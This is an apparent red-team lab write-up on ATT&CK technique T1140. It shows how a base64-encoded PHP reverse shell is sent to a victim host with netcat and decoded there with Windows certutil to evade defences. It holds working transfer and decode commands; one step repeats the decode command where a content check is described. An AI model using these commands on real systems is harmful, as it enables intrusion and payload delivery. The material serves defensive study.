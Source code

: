 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from the attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../.gitbook/assets/certutil-decoded.png)

